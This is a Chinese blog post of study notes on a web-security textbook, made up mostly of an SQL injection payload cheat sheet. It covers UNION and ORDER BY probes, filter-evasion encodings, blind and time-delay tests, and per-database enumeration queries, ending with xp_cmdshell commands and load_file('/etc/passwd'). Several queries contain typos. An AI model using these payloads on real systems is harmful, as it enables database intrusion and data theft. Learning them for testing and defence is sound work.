 title: 黑客攻防技术宝典web实战篇笔记4
date: 2016-01-08 12:57:39
categories: [web]
tags: [web]
---

攻击会话管理
<!--more-->
会话令牌生成过程中的薄弱环节； 在整个生命周期过程中处理会话令牌的薄弱环节。
#### 状态要求  p172

#### 令牌可预测
隐含序列； 时间依赖； 生成的数字随机性不强

p238
1.尝试输入一个结果等于原始数字值的简单学表达式。例如，如果原始值为2，尝试提交1+1或3-1.如果应用程序做出相同的响应，则表示它易于受到攻击。
2.如果证实被修改的数据会对应用程序的行为造成明显影响，则前面描述的测试方法最为可靠。例如，如果应用程序使用数字化PageID参数指定应返回什么内容，则用1+1代替2得到相同的结果名校表示存在SQL注入。但是，如果能够在数字化参数中插入任意输入，但应用程序的行为却没有发生改变，那么前面的检测方法就无法发现漏洞。
3.如果在第一个测试方法取得成功，你可以利用更复杂的、使用特殊SQL关键字和语法的表达式进一步获得与漏洞有关的证明。ASCII值为65，在SQL中，以下表达式等于2. 67-ASCII('A')
4.如果单引号被过滤掉，那么前面的测试方法就没有作用。但是，这时可以利用这样一个事实：即在必要时，数据库会隐含的将数字数据转化为字符串数据。例如，因为字符1的ASCII值为49，在SQL	中，以下表达式等于2.  51-ASCII（1）

#### 注入查询结构
1.记下任何可能控制应用程序返回的结果的顺序或其中的字段类型的参数
2.提供一系列在参数值中提交数字值的请求，从数字1开始，然后逐个请求递增。
 如果更改输入中的数字会影响结果的顺序，则说明输入可能被插入到ORDER BY 子句中。在sql中，ORDER BY 1将依据第一个列进行排序。然后，将这个数字增加到2将更改数据的显示顺序，以依据第二个列进行排序。如果提交的数字大于结果集中的列数，查询将会失败。在这种情况下，你可以通过使用一下字符串，检查是否可以颠倒结果的顺序，从而确认是否可以注入其他sql：
1 ASC --
1 DESC --
 如果提交数字1生成一组结果，其中一个列的每一行都包含一个1，则说明输入可能被插入到查询返回的列的名称中，例如：
select 1,title,year from books where publisher='Wiley'

#### 指纹识别数据库
oracle : 'serv'||'ices'
MS-sql : 'serv'+'ices'
Mysql :  'serv'空格'ices'
如果注入数字数据，则可以使用下面的攻击字符串来识别数据库。每个数据库在目标数据库中的求值结果为0，在其他数据库则会导致错误。
orcale ：BITAND(1,1)-BITAND(1,1)
ms-sql： @@PACK_RECEIVED-@@PACK_RECEIVED
Mysql: CONNECTION_ID()-CONNECTION_ID()

UNION
'UNION SELECT NULL--
'UNION SELECT NULL,NULL--
'UNION SELECT NULL,NULL,NULL--
确定列后
'UNION SELECT 'a',NULL,NULL--
'UNION SELECT NULL,'a',NULL--
'UNION SELECT NULL,NULL,'a'--


Oracle: SELECT table_name||':'||column_name FROM all_tab_columns
MS-SQL: SELECT table_name+':'+column_name from information_schema.columns
MySQL : SELECT CONCAT(table_name,':',column_name) from information_schema.columns

9.2.8 避开过滤 
1.列名单引号，通过字符串函数使用每个字符ASCII
select ename,sa1 from emp where ename='mar'
select ename,sa1 from emp where ename=CHR(109)||CHR(97)||CHR(114)
select ename,sa1 from emp where ename=CHR(109)+CHR(97)+CHR(114)

注释字符被阻止
' or 1=1--
' or 'a'='a
在MSSQL数据库注入批量查询，不必使用分好分隔符。只要纠正所有批量查询的语法，无论你是否使用分好，查询解析器都会正确解释他们。
2.避免使用简单确认
SeLeCt
%00SELECT
SELSELECTECT
%53%45%4C%45%43%54
%2553%2545%254C%2545%2543%2554
3.使用SQL注释
SQL语句注释内容包含再/*与*/符号之间。如果应用程序阻止或删除输入中的空格，可以使用注释“冒充”
SELECT/*foo*/username,password/*foo*/FROM/*foo*/users
SELECT/*foo*/username,password/*foo*/FR/*foo*/OM users
4.利用有缺陷的过滤
输入确认机制通常包含逻辑缺陷，可以对这些缺陷加以利用，使用被阻止的输入避开过滤。多数情况下，这类攻击会利用应用程序再多个确认步骤进行排序，或未能以递归方式应用净化逻辑方面缺陷。

9.2.9 二阶SQL输入 247


高级利用 P 249
SELECT * FROM users WHERE username = 'marcus' and password = 'secret'


input: foo' || (SELECT 1 FROM dual WHERE  (SELECT username FROM all_users WHERE username = 'DBSNMP')='DBSNMP')--

SELECT * FROM users WHERE username = 'foo' || (SELECT 1 FROM dual WHERE  (SELECT username FROM all_users WHERE username = 'DBSNMP')='DBSNMP')

admin' AND ASCII(SUBSTRING('Admin',1,1))=65--
P254

9.2.13 
Oracle ASCII('A') 65 SUBSTR('ABCDE',2,3)  BCD
MS-SQL ASCII('A') 65 SUBSTRING('ABCDE',2,3) BCD
MYSQL  ASCII('A') 65 SUBSTRING('ABCDE',2,3) BCD
获取当前数据库用户
Oracle select Sys.login_user from dual select user FROM dual SYS_CONTEXT('USERENV','SESSION_USER')
MSSQL select suser_sname()
MYSQL SELECT user()
引起时间延迟
oracle Utl_Http.request('http://madeupserver.com')
mssql  waitfor delay '0:0:10" exec master ..xp_cmdshell 'ping localhost'
mysql  sleep(10)
获取数据库版本
o select banner from v$version
s select @@version
y select @@version
获取当前数据库
o select SYS_CONTEXT('USERENV','DB_NAME') FROM dual
s select db_name()   select @@servername
y select database()
获取当前用户权限
o select privilege from session_privs
s select grantee,table_name,privilege_type from INFORMATION_SCHEMA,TABLE_PRIVILEGES
y select * from information_schema.user_privileges where grantee = '[user]'
在单独的结果列显示所有表和列
o select table_name||' '||column_name from all_tab_columns
s select table_name+' ',column_name from information_schema.columns
y select CONCAT(table_name+' ',column_name) from information_schema.columns
显示用户对象
o select object_name, object_name,object_type from user_objects
s select name from sysobjects
y select table_name from information_schema.tables  (或trigger_name from information_schema.trigers)
显示用户表
o select object_name,object_type from user_objects wherer object_type='TABLE'
  SELECT table_name from all_tables
s select name from sysobjects where extype='U'
y select table_name from information_schema.tables where table_type='BASE TABLE' and table_schema!='mysql'
显示表foo的列名称
o select column_name, name from user_tab_columns where table_name='foo'
s select column_name from information_schema.columns where table_name='foo'
y select column_name from information_schema.columns where table_name='foo'
与操作系统交互
s exec xp_cmshell 'dir c:\'
y select load_file('/etc/passwd')


P268
